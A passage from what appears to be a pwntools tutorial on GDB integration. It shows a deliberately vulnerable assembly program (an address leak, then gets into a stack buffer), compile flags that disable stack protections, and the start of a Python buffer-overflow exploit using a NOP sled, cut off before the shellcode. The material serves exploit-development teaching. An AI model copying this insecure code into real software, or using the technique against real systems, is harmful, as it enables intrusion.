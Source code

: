 
## GDB integration
---

Most importantly, pwntools provides GDB integration, which is extremely useful.

Let's follow an example using the following program:
```asm
extern gets
extern printf

section .data
formatstr: db "Enjoy your leak: %p",0xa,0

section .text
global main
main:
	push rbp
	mov rbp, rsp
	sub rsp, 64
	lea rbx, [rbp - 64]
	mov rsi, rbx
	mov rdi, formatstr
	call printf
	mov rdi, rbx
	call gets
	leave
	ret
```
Compile it with:
```bash
$ nasm vuln.asm -felf64
$ gcc -no-pie -fno-pic  -fno-stack-protector -z execstack vuln.o -o vuln
```

Use this script to exploit the program:
```python
#!/usr/bin/env python
from pwn import *

ret_offset = 72
buf_addr = 0x7fffffffd710
ret_address = buf_addr+ret_offset+16

# This sets several relevant things in the context (such as endianess,
# architecture etc.), based on the given binary's properties.
# We could also set them manually:
# context.arch = "amd64"
context.binary = "vuln"
p = process("vuln")


payload = b""
# Garbage
payload += ret_offset * b"A"

# Overwrite ret_address, taking endianness into account
payload += pack(ret_address)

# Add nopsled
nops = asm("nop")*100

payload += nops

# Assemble a shellcode from 'shellcraft' and append to payload
```